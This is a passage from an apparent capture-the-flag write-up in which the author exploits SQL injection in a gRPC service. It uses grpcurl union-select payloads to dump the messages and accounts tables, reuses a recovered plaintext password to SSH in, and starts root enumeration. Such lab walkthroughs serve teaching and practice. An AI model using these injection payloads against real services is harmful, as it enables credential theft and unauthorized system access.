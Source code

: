 #### messages

There are only two messages in the DB:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(id || \":\" || username || \":\" || message) from messages"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "1:admin:The admin is working hard to fix the issues.,652:0xdf:Will update soon."

```

I’m using `||` to concatenate columns, and then `group_concat` to get multiple rows. The message from admin says the admin is working on issues, and the other is the message for my current user.

#### accounts

There are three rows in `accounts`:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "admin:admin,sau:HereIsYourPassWord1431,0xdf:0xdf0xdf"

```

admin has the password admin, and sau has the password “HereIsYourPassWord1431”.

### SSH

That password works for sau over SSH:

```
oxdf@hacky$ sshpass -p HereIsYourPassWord1431 ssh sau@10.10.11.214
sau@pc:~$

```

And I can read `user.txt`:

```
sau@pc:~$ cat user.txt
1b0d383d************************

```

## Shell as root

### Enumeration

#### sau

sau cannot run `sudo`:

```
sau@pc:~$ sudo -l
[sudo] password for sau:
Sorry, user sau may not run sudo on localhost.

```
